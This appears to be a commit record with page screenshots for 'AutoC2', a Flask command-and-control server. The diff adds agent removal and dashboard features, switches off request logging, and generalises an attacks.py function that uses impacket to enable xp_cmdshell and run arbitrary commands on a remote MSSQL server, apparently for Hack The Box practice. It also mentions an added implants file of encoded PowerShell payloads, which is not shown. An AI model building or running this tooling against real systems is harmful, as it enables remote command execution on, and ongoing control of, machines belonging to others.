

Before and after one commit to bokkisec/AutoC2, a Flask app: template templates/dashboard.html in a window 1280 px wide. Shown: the top 734 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
delete agents, refresh button, encoded ps implant payloads

```diff
--- a/app.py
+++ b/app.py
@@ -14,8 +14,8 @@ SERVER_PORT = 4444
 # Flask stuff
 app = Flask(__name__)
 app.secret_key = "ac2_secret"
-#log = logging.getLogger('werkzeug')
-#log.disabled = True
+log = logging.getLogger('werkzeug')
+log.disabled = True
 
 # Set up server logging
 logger = logging.getLogger(__name__)
@@ -78,6 +78,14 @@ def handle_client(client_socket, client_address):
                 if not agent.command_queue.empty():
                     # Get the next command from the queue
                     command = agent.command_queue.get()
+
+                    # Check if agent is exiting
+                    if command == "exit\n":
+                        # Remove agent from data structures
+                        registered_agents_id[agent.id] = None  # Set to None to keep indexing intact
+                        registered_agents_ip.pop(agent.ip, None)
+                        registered_addresses.discard(agent.ip)
+
                     logging.info(f"[+] Sending command to {client_address}: {command}")
                     client_socket.sendall(command.encode())
 
@@ -160,7 +168,11 @@ def dashboard():
     if 'username' not in session:
         flash('Please log in first.', 'warning')
         return redirect(url_for('login'))
-    return render_template('dashboard.html', username=session['username'], agents=registered_agents_id[1:])
+
+    # Filter out any removed agents (None values) before passing to the template
+    active_agents = [agent for agent in registered_agents_id if agent is not None]
+
+    return render_template('dashboard.html', username=session['username'], agents=active_agents)
 
 @app.route('/logs')
 def logs():
@@ -176,14 +188,6 @@ def logs():
 
     # Render the log contents in the HTML template
     return render_template('logs.html', log_content=log_content)
-
-@app.route('/submit_command', methods=['POST'])
-def submit_command():
-    command = request.form.get('command')
-    if command:
-        command_queue.append(command)
-        flash(f'Command "{command}" added to queue!', 'info')
-    return redirect(url_for('dashboard'))
 
 @app.route('/logout')
 def logout():
@@ -225,6 +229,28 @@ def retrieve_output():
     else:
         return jsonify({"success": False, "error": "Invalid agent ID"}), 400
 
+@app.route('/remove_agent', methods=['POST'])
+def remove_agent():
+    data = request.get_json()
+    agent_id = int(data.get('agent_id'))
+
+    # Ensure the agent exists in the registered_agents_id list
+    if 0 < agent_id < len(registered_agents_id) and registered_agents_id[agent_id] is not None:
+        try:
+            agent = registered_agents_id[agent_id]
+            agent_ip = agent.ip
+
+            # Terminate session by queueing `exit`, rest will be handled by client thread
+            agent.command_queue.put("exit\n")
+
+            logger.info(f"[+] Agent {agent.hostname} (ID: {agent.id}, IP: {agent.ip}) removed successfully.")
+            return jsonify({"success": True})
+        except Exception as e:
+            logger.error(f"[!] Error removing agent with ID {agent_id}: {e}")
+            return jsonify({"success": False, "error": str(e)})
+    else:
+        return jsonify({"success": False, "error": "Agent not found."}), 400
+
 if __name__ == '__main__':
     # Default creds
     if not os.path.exists("creds.db"):
--- a/attacks.py
+++ b/attacks.py
@@ -1,5 +1,5 @@
 import pwn
-import os
+import implants
 
 """
 With valid credentials and correct permissions, execute commands on remote MSSQL server
@@ -11,14 +11,14 @@ Example usage (Tested on HTB Querier):
     command = "ping 10.10.14.10"
     print(mssql_rce(username, password, target, command))
 """
-def mssql_rce(username, password, ip, command):
+def mssql_rce(username, password, target, command):
     p = pwn.process(["/usr/bin/impacket-mssqlclient", "-windows-auth", f"{username}:{password}@{target}"], stdin=pwn.PTY)
     p.readuntil(")>")
     p.send(b"enable_xp_cmdshell\n")
     p.send(b'\4')
     p.readuntil("install.")
     p.readuntil("install.")
-    p.send("xp_cmdshell ping 10.10.14.10\n")
+    p.send(f"xp_cmdshell {command}\n")
     p.send(b'\4')
     p.readuntil("NULL")
     output = p.readuntil("NULL")
--- a/static/styles.css
+++ b/static/styles.css
@@ -176,10 +176,7 @@ body {
     display: inline-flex;
     align-items: center;
 }
-.dropdown-header {
-    font-weight: bold;
-    cursor: pointer;
-}
+
 .dropdown-content {
     display: none;
     margin-top: 10px;
@@ -194,3 +191,60 @@ body {
     border-radius: 5px;
     border: 1px solid #ddd;
 }
+
+/* Dropdown header to position the close button relative to each header */
+.dropdown-header {
+    font-weight: bold;
+    cursor: pointer;
+    position: relative;  /* Make the close button position relative to this container */
+    padding-right: 30px; /* Give padding so text doesn't overlap with the close button */
+}
+
+/* Close button styling for each dropdown */
+.close-btn {
+    background-color: #d32f2f;  /* Red color matching the danger category */
+    color: #ffffff;             /* White "X" */
+    border: none;
+    border-radius: 6px;
+    font-size: 16px;
+    font-weight: bold;
+    width: 24px;
+    height: 24px;
+    line-height: 20px;
+    text-align: center;
+    cursor: pointer;
+    position: absolute;
+    top: 0px;
+    right: 10px;
+    transition: background-color 0.3s ease;
+}
+
+.close-btn:hover {
+    background-color: #f57c00;  /* Subtle orange to match the warning color */
+}
+
+.agents-header {
+    display: flex;            /* Use Flexbox for layout */
+    justify-content: center; /* Distribute space between items */
+    width: 100%;              /* Ensure it takes full width of its parent */
+}
+
+.agents-header h2 {
+    padding: 4px 8px;
+}
+
+.refresh-btn {
+    background-color: #28a745; /* Green color to differentiate */
+    color: #ffffff;
+    font-weight: bold;
+    padding: 8px 8px;
+    border-radius: 5px;
+    cursor: pointer;
+    border: none;
+    transition: background-color 0.3s;
+    font-size: 16px;
+}
+
+.refresh-btn i {
+    font-size: 20px; /* Size of the refresh icon */
+}
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -4,6 +4,7 @@
     <meta charset="UTF-8">
     <title>AutoC2 | Dashboard</title>
     <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
 </head>
 <body>
 
@@ -24,15 +25,21 @@
         </nav>
 
         <div class="main">
-            <h2 style="color: #ffffff;">Agents</h2>
+            <div class="agents-header">
+                <h2 style="color: #ffffff;">Agents</h2>
+                <button onclick="location.reload();" class="refresh-btn"><i class="fas fa-sync-alt"></i></button>
+            </div>
 
             {% for agent in agents %}
-                <div class="dropdown" onclick="toggleDropdown(this)">
-                    <div class="dropdown-header"><h3>{{ agent.hostname }} ({{ agent.ip }}) - Agent ID: {{ agent.id }}</h3></div>
-                    <div class="dropdown-content" onclick="event.stopPropagation();">
+                <div class="dropdown" id="dropdown-{{ agent.id }}" onclick="toggleDropdown({{ agent.id }})">
+                    <div class="dropdown-header">
+                        <h3>{{ agent.hostname }} ({{ agent.ip }}) - Agent ID: {{ agent.id }}</h3>
+                        <button onclick="removeAgent({{ agent.id }});" class="close-btn"><i class="fas fa-times"></i></button>
+                    </div>
+                    <div class="dropdown-content" id="content-{{ agent.id }}" onclick="event.stopPropagation();">
                         <form onsubmit="event.preventDefault(); sendCommand({{ agent.id }});">
                             <label for="command-{{ agent.id }}">Command:</label>
-                            <input type="text" id="command-{{ agent.id }}"" style="width: 50%;" required>
+                            <input type="text" id="command-{{ agent.id }}" style="width: 50%;" required>
                             <button type="submit" class="button">Send</button>
                         </form>
 
@@ -57,9 +64,35 @@
     </div>
 
     <script>
-        function toggleDropdown(element) {
-            element.classList.toggle('open');
+        // Function to toggle dropdown visibility
+        function toggleDropdown(agentId) {
+            const dropdown = document.getElementById(`dropdown-${agentId}`);
+            const content = document.getElementById(`content-${agentId}`);
+
+            // Toggle dropdown open/close
+            const isOpen = dropdown.classList.toggle('open');
+            // Store the dropdown state in localStorage
+            localStorage.setItem(`dropdown-${agentId}`, isOpen ? 'open' : 'closed');
         }
+
+        // Function to check and restore dropdown state on page load
+        function restoreDropdowns() {
+            {% for agent in agents %}
+                const state = localStorage.getItem(`dropdown-{{ agent.id }}`);
+                const dropdown = document.getElementById(`dropdown-{{ agent.id }}`);
+                const content = document.getElementById(`content-{{ agent.id }}`);
+
+                // Restore the dropdown state based on localStorage
+                if (state === 'open') {
+                    dropdown.classList.add('open');
+                } else {
+                    dropdown.classList.remove('open');
+                }
+            {% endfor %}
+        }
+
+        // Call restoreDropdowns when the page loads
+        window.onload = restoreDropdowns;
 
         function sendCommand(agentId) {
             const commandInput = document.getElementById(`command-${agentId}`);
@@ -116,12 +149,30 @@
                 outputDiv.innerHTML = `<strong>[ERROR]:</strong> Could not retrieve command.`;
             });
         }
-    </script>
 
-    <script>
-        function updateOutput(agent_id, logNumber) {
-            const outputLog = document.getElementById('output-log' + agent_id);
-            outputLog.innerText = `Output Log ${logNumber}: This is the content for output log ${logNumber}`;
+        function removeAgent(agentId) {
+            // Confirmation prompt before removing the agent
+            if (confirm("Remove agent?")) {
+                // Send the request to remove the agent from the server
+                fetch(`/remove_agent`, {
+                    method: "POST",
+                    headers: {
+                        "Content-Type": "application/json"
+                    },
+                    body: JSON.stringify({ agent_id: agentId })
+                })
+                .then(response => response.json())
+                .then(data => {
+                    if (data.success) {
+                        location.reload();  // Reload to update the agent list
+                    } else {
+                        alert(`Error: ${data.error}`);
+                    }
+                })
+                .catch(error => {
+                    alert("Error: Could not remove agent.");
+                });
+            }
         }
     </script>
 
```
Also changed, not shown: implants.py (added, +79 -0 lines).
